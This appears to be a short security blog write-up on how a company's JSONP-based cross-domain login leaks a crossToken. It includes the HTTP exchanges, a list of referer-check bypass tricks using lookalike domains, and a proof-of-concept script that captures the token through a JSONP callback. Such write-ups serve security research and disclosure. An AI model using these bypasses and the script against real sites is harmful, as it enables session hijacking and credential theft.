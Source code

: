 ```yaml
---
layout: single
title:  "Abusing JSONP to grab user credentials"
---
```


I find that a company implements cross-domain authentication using JSONP and cookies.There is the login flow:
```
GET /api/cross/getsign?callback=test HTTP/1.1
Host: portal.domain.com
Referer: http://www.otherdomain.com

HTTP/1.1 200 OK
test(crossToken)
```
```
POST /api/cross/getsign HTTP/1.1
Host: www.otherdomain.com

crossToken=[crossToken]

HTTP/1.1 200 OK
set-cookie: session=xxxxxxxxxxxxxxxxxxxxxxx
```
The company prevents the JSONP injection via referer check. 

some common referer check  byapss tricks:
- notdomian.com
- domain.com.evil.com
- evil.com/domain.com
- send a blank referer

Fortunately, I can bypass it using nototherdomain.com. Then  I buy it and host the malicious code there. So, I can steal the victims' crossToken and hijack their session.


POC:
```
<script type="text/javascript">
function test(data) {
    var crossToken = data;
    document.write('crossToken=' + encodeURIComponent(crossToken));
}
</script>
<script src="http://portal.domain.com/api/cross/getsign?callback=test"></script>
```


Further reading:
[Practical JSONP Injection](https://securitycafe.ro/2017/01/18/practical-jsonp-injection/)



